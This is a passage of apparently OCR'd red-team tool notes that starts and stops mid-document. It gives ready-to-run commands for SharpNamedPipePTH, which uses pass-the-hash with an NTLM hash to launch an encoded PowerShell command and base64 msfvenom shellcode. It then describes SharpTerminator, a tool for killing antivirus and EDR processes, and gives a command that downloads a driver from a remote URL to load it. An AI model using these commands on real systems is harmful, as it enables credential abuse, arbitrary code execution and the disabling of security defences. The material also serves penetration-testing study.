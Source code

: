                 ```
                
                ```bash
                SharpNamedPipePTH.exe username:testing domain:localhost hash:7C53CFA5EA7D0F9B3B968AA0FB51A3F5 binary:"C:\\WINDOWS\\System32\\WindowsPowerShell\\v1.0\\powershell.exe" arguments:"-nop -w 1 -sta -enc bgBvAHQAZQBwAGEAZAAuAGUAeABlAAoA"
                
                ```
                
            - **Executing Shellcode**:
                
                ```jsx
                SharpNamedPipePTH.exe username:testing domain:localhost hash:7C53CFA5EA7D0F9B3B968AA0FB51A3F5 shellcode:/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu+AdKgpBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY21kLmV4ZQA=
                
                ```
                
                This command uses shellcode generated by msfvenom for process execution.
                
                ## **SharpTerminator**
                
                ### **Description**
                
                SharpTerminator is a C# port of the Terminator tool originally developed by ZeroMemoryEx. It serves as a utility for terminating Anti-Virus (AV) and Endpoint Detection and Response (EDR) processes on a compromised system. This tool is particularly useful in penetration testing and red team operations where AV/EDR solutions may hinder or detect malicious activities.
                
                ### **Functionality**
                
                SharpTerminator offers the capability to:
                
                - Download and load a driver from a remote URL to terminate AV/EDR processes.
                - Load a driver directly from the disk for the same purpose.
                - Operate either by downloading the driver to a temporary location (**`C:\\Windows\\Temp`**) or by using a driver already present on the disk.
                
                The tool provides flexibility depending on the user's operational needs and constraints, such as the availability of upload functions in their Command and Control (C2) infrastructure.
                
                ### **Example Commands**
                
                - **Loading from Remote URL**:
                    
                    ```lua
                    execute-assembly SharpTerminator.exe --url "<http://remoteurl.com:80/Terminator.sys>"
                    
                    ```
                    
                    This command downloads the driver from the specified URL and loads it to terminate AV/EDR processes.
                    
                - **Loading from Disk**:
                    